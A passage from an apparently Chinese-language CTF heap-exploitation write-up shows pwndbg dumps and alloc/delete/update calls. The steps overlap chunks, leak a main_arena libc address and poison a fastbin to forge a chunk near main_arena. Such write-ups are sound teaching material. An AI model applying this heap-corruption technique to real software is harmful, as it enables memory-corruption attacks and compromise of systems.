 ```
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
修改chunk1的size为0xa1:
```
0x555555757050 PREV_INUSE {
  prev_size = 4702111234474983745, 
  size = 161, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```
然后free chunk1,再alloc(0x48):
```
0x555555757050 FASTBIN {
  prev_size = 4702111234474983745, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x7ffff7dd1b78 <main_arena+88>, #原本chunk2里就有了地址，再view即可泄露
  bk = 0x7ffff7dd1b78 <main_arena+88>, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

2. dup to main_arena:

```
alloc(0x48) #4 = 2 ；接着上一步，malloc一个0x48的chunk，那么得到chunk4和chunk2是指向同一个chunk的。
delete(2)   # free chunk2 ，此时chunk2被放入fastbin中。
update(4,0x8,p64(0x61))  #修改chunk2的fd为0x61
alloc(0x48)#2, 再malloc一个0x48的chunk，那么fastbinsY[3]=chunk2->fd =0x61. 
```
如图所示：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x5555557570a0 ◂— 0x61 /* 'a' */
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
再malloc 一个0x48的chunk：
```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x61  #成功得到0x61,那么就可以将这里当成合法的chunk
```